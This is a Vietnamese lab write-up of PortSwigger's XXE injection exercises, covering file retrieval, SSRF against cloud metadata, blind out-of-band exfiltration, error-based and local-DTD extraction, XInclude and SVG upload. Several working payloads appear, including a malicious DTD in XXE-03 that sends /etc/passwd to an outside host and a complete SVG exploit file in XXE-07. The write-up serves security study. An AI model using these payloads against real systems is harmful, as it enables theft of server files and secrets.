

# XXE Injection

# I. Tổng quan

**XML External Entity (XXE) Injection** là một lỗ hổng bảo mật xảy ra khi ứng dụng xử lý dữ liệu XML không an toàn. Nếu ứng dụng không vô hiệu hóa hoặc hạn chế việc xử lý **thực thể bên ngoài (external entities)**, kẻ tấn công có thể chèn mã độc vào XML để thực hiện các hành vi nguy hiểm như:

- **Đọc tệp trên server** (Local File Inclusion - LFI).
- **Thực hiện yêu cầu HTTP nội bộ** (Server-Side Request Forgery - SSRF).
- **Rò rỉ dữ liệu nhạy cảm** (Sensitive Data Exposure).
- **Thực thi mã từ xa** (Remote Code Execution - RCE, trong trường hợp đặc biệt).

Bài viết này phân tích và thực hành các kỹ thuật khai thác **XXE Injection** trên nền tảng **PortSwigger**.

# **II. Các kĩ thuật khai thác XXE**

## XXE-01: **Exploiting XXE using external entities to retrieve files**

[lab-exploiting-xxe-to-retrieve-files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)

### **Description and Impact**

Ứng dụng không bảo vệ đầy đủ trước thực thể XML trong dữ liệu đầu vào, cho phép attacker truy xuất tệp nhạy cảm như /etc/passwd, gây rò rỉ thông tin hệ thống quan trọng.

### **Root Cause**

Ứng dụng xử lý dữ liệu XML mà không vô hiệu hóa hoặc hạn chế việc sử dụng thực thể bên ngoài 

### **Reproduce**

Truy cập trang sản phẩm và nhấn nút "Check stock" để gửi yêu cầu kiểm tra hàng tồn kho.

Sử dụng Burp Suite để quan sát dữ liệu XML: 



Sửa đổi payload XML :


Gửi request, phản hồi chứa `/etc/passwd`:


**Kết luận:** Ứng dụng tồn tại lỗ hổng XXE, cho phép rò rỉ dữ liệu.

## XXE-02: **Exploiting XXE to perform SSRF attacks**

[lab-exploiting-xxe-to-perform-ssrf](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)

### **Description and Impact**

Lỗ hổng XXE cho phép kẻ tấn công thực hiện SSRF, buộc máy chủ gửi yêu cầu HTTP đến địa chỉ nội bộ hoặc bên ngoài, có thể dẫn đến truy cập trái phép.

### **Root Cause**

Ứng dụng không kiểm soát dữ liệu XML đầu vào, cho phép nhúng thực thể trỏ đến URL nội bộ.

### **Reproduce**

Sửa đổi payload XML :


Gửi yêu cầu và kiểm tra phản hồi. Với máy chủ AWS EC2, yêu cầu đến `http://169.254.169.254/` trả về lỗi `"Invalid product ID: latest"`, cho thấy siêu dữ liệu (metadata) đã được truy vấn.

Kẻ tấn công có thể khai thác thêm bằng cách truy vấn `http://169.254.169.254/latest/meta-data/...` để lấy thông tin nhạy cảm.

**Kết luận:** XXE cho phép SSRF, mở đường tấn công nội bộ.

## XXE-03: **Exploiting blind XXE to exfiltrate data using a malicious external DTD**

[blind/lab-xxe-with-out-of-band-exfiltration](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)

### **Description and Impact**

Ứng dụng dễ bị tấn công Blind XXE do xử lý XML không an toàn, cho phép kẻ tấn công trích xuất dữ liệu qua DTD độc hại. Lỗ hổng được xác nhận qua yêu cầu mạng ngoài băng tần, dù không có dữ liệu trả về trực tiếp.

### **Root Cause**

Bộ phân tích XML không chặn xử lý thực thể bên ngoài trong DTD, cho phép gọi DTD từ xa và gửi dữ liệu qua mạng.

### **Reproduce**

**Tạo một file DTD độc hại** và lưu trên server tấn công: `https://exploit-xxx.exploit-server.net/exploit` 

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY % exfiltrate SYSTEM 'http://collaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```


Gửi payload XML đến ứng dụng:


Ứng dụng tải DTD, đọc /etc/passwd, và gửi nội dung đến Burp Collaborator qua yêu cầu HTTP:


Dữ liệu `/etc/passwd` đã được trích xuất ra ngoài mà không cần ứng dụng trả lời trực tiếp

## XXE-04: **Exploiting blind XXE to retrieve data via error messages**

[lab-xxe-with-data-retrieval-via-error-messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)

### **Description and Impact**

Ứng dụng dễ bị Blind XXE, cho phép kẻ tấn công trích xuất dữ liệu (như `/etc/passwd`) qua thông báo lỗi XML. Lỗ hổng phụ thuộc vào việc ứng dụng trả lại lỗi chi tiết trong phản hồi.

### **Root Cause**

Bộ phân tích XML không chặn thực thể bên ngoài và ứng dụng hiển thị thông báo lỗi chứa dữ liệu nhạy cảm.

### **Reproduce**

Tạo DTD độc hại:


Gửi payload XML:


Kiểm tra phản hồi, thấy lỗi chứa:


**Kết luận:** Dữ liệu lộ qua thông báo lỗi.

## XXE-05: **Exploiting XXE to retrieve data by repurposing a local DTD**

### **Description and Impact**

Khi kết nối ngoài bị chặn, kẻ tấn công có thể tìm DTD nội bộ (như `/usr/share/yelp/dtd/docbookx.dtd`) để tái sử dụng, gây lỗi chứa dữ liệu nhạy cảm (như `/etc/passwd`).

### **Root Cause**

Bộ phân tích XML cho phép tái định nghĩa thực thể từ DTD nội bộ và trả lỗi chi tiết.

### **Reproduce**

Kiểm tra DTD tồn tại bằng payload:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```


Không có lỗi, tệp tồn tại.

Tìm bản sao docbookx.dtd. Nghĩa là cần lấy nội dung của tệp docbookx.dtd để xem nó có những thực thể nào. Ở đây port swigger đã cho sẵn: 


Gửi payload khai thác:


Phản hồi lỗi chứa `/etc/passwd`:


**Kết luận:** Dữ liệu được trích xuất qua lỗi bằng DTD nội bộ.

## XXE-06: **Exploiting XInclude to retrieve files**

[lab-xinclude-attack](https://portswigger.net/web-security/xxe/lab-xinclude-attack)

### **Description and Impact**

Ứng dụng dễ bị XXE khi nhúng dữ liệu đầu vào vào XML ở phía server mà không kiểm soát. Kẻ tấn công có thể dùng XInclude để đọc tệp nhạy cảm (như /etc/passwd), ngay cả khi không kiểm soát toàn bộ XML.

### **Root Cause**

Bộ phân tích XML hỗ trợ XInclude mà không vô hiệu hóa hoặc lọc dữ liệu đầu vào được nhúng.

### **Reproduce**

Gửi payload XInclude trong param `productId`:


Phản hồi chứa `/etc/passwd`:


**Kết luận:** XXE khai thác qua XInclude mà không cần <!DOCTYPE>.

## XXE-07: **Exploiting XXE via image file upload**

[lab-xxe-via-file-upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)

### **Description and Impact**

Ứng dụng cho phép tải SVG mà không chặn thực thể bên ngoài, tạo lỗ hổng XXE. Kẻ tấn công có thể đọc tệp như /etc/hostname và hiển thị trong phản hồi.

### **Root Cause**

Thư viện xử lý SVG không vô hiệu hóa thực thể bên ngoài trong XML.

### **Reproduce**

Tạo tệp SVG chứa mã XXE, `xxe.svg`:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Đăng bình luận trên blog của ứng dụng và tải `xxe.svg` làm ảnh đại diện .

Xem bình luận, ảnh SVG hiển thị nội dung của `/etc/hostname`.


**Kết luận:** XXE khai thác qua SVG upload.